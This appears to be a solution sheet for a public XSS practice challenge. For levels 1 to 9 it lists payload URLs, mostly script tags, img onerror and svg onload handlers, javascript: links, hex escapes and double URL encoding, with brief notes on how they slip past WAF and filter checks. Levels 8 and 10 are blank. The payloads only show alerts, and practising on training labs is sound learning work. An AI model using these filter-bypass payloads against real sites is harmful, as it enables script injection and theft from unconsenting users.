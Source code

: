 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads. \
Level 7 : https://zixem.altervista.org/XSS/7.php?name=zxm%253Cscript%253Ealert(1337)%253C/script%253E \
Double encode < (%253C) and (%253E)> for use in an XSS payload, need to encode them twice using URL encoding \
Level 8 : \ 
Level 9 :[https://zixem.altervista.org/XSS/9.php?name=zxm<svg/onload=alert(1337) >](https://zixem.altervista.org/XSS/9.php?name=zxm%3Csvg/onload=%22alert(1337)%22%3E) \
Level 10 :

